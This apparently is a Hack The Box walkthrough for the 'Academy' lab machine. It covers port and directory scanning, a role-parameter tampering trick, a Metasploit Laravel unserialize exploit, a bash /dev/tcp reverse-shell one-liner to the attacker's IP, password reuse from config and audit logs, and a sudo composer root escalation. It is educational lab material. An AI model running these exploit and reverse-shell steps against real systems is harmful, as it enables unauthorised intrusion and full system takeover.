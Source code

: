 ```yaml
---
title: "Academy from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Academy from HTB
`nmap` gave this
```bash
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open     mysqlx?
| fingerprint-strings:
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
|     Invalid message"
|_    HY000
```

add this to `/etc/hosts`
```
10.10.10.215 academy.htb
```
After accessing the site click `Register`and signup
Then for `directory enumeration`
```bash
dirsearch -u http://academy.htb

[15:53:38] 200 -  968B  - /admin.php
[15:53:51] 200 -    0B  - /config.php
[15:53:59] 302 -   54KB - /home.php  ->  login.php
[15:53:59] 301 -  311B  - /images  ->  http://academy.htb/images/
[15:53:59] 403 -  276B  - /images/
[15:54:03] 200 -  964B  - /login.php
[15:54:13] 200 - 1001B  - /register.php
```
From here `/admin.php` is interesting, it takes us to `login page` but shows nothing interesting. Lets create new user from `/register.php`but now let's use `burpsuite + intercept`to see what's happening in background
```
uid=shavigio1&password=shavigio1&confirm=shavigio1&roleid=0
```
Let's change `roleid`and see what it does
```
uid=shavigio1&password=shavigio1&confirm=shavigio1&roleid=1
```
After forwarding we are taken to `http://academy.htb/login.php` then login with user you just created, But it gives us nothing, But let's see `/admin.php` we get this:
```
Item	Status
Complete initial set of modules (cry0l1t3 / mrb3n)	done
Finalize website design	done
Test all modules	done
Prepare launch campaign	done
Separate student and admin roles	done
Fix issue with dev-staging-01.academy.htb	pending
```
We see subdomain `dev-staging-01` add that to `/etc/hosts` and open that subdomain
after eploring we can read that it uses `laravel` but we don't know the version so we have to risk it.
In `searchsploit` search `laravel` and we'll use
```
PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)                                                   | linux/remote/47129.rb
```
in `Metasploit`
```bash
msf6 > search laravel

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution
   1  exploit/multi/php/ignition_laravel_debug_rce      2021-01-13       excellent  Yes    Unauthenticated remote code execution in Ignition
   2    \_ target: Unix (In-Memory)                     .                .          .      .
   3    \_ target: Windows (In-Memory)                  .                .          .      .


msf6 > use  exploit/unix/http/laravel_token_unserialize_exec
[*] Using configured payload cmd/unix/reverse_perl


msf6 exploit(unix/http/laravel_token_unserialize_exec) > set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_KEY => dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LHOST 10.10.16.11
LHOST => 10.10.16.11
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set LPORT 1234
LPORT => 1234
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOST 10.10.10.215
RHOST => 10.10.10.215
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set RHOST dev-staging-01.academy.htb
RHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.16.11:1234
[*] Command shell session 1 opened (10.10.16.11:1234 -> 10.10.10.215:52356) at 2024-09-07 16:36:34 +0400
ls
css
favicon.ico
index.php
js
robots.txt
web.config
```
We got interactive shell. Yippe!
then to get fully interactive reverse shell use this payload
```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.11/9001 0>&1'
```
this will give connection on `netcat`
```bash
 rlwrap nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.215] 41170
bash: cannot set terminal process group (1021): Inappropriate ioctl for device
bash: no job control in this shell
www-data@academy:/var/www/html/htb-academy-dev-01/public$
```
in `/var/www/html/academy$`we find `.env` file which contains password for `mysql login` but none of the mentioned names in that file gives us connection to `mysql`so we'll have to use one of the users from `/etc/passwd`, well we didn't get connection on `mysql`but we can switch to `cry0l1t3` with this password
```bash
su cry0l1t3
Password: mySup3rP4s5w0rd!!

$ id
id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```
User Flag is:
```
773ba55ce9af653ba3a98522f5ed83ca
```
reading the output `id` gives the `adm` group is interesting
>adm: Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.

listing the files in `/var/log/` we see `audit` which may contain password for other user to read `audit logs` we have to use
```bash
aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
```
Now we can switch to `mrb3n`
```bash
$ sudo -l
sudo -l
[sudo] password for mrb3n: mrb3n_Ac@d3my!

Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
So we can run `composer` with root Permission
in https://gtfobins.github.io/gtfobins/composer/ we can do privilege escalation
```bash
$ TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x

Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# # id
id
uid=0(root) gid=0(root) groups=0(root)
```
The Root Flag is:
```
eb28f848975237f3a2b2c41a63edef9e
```
![](/assets/images/2024-09-07_17-07-48.png)

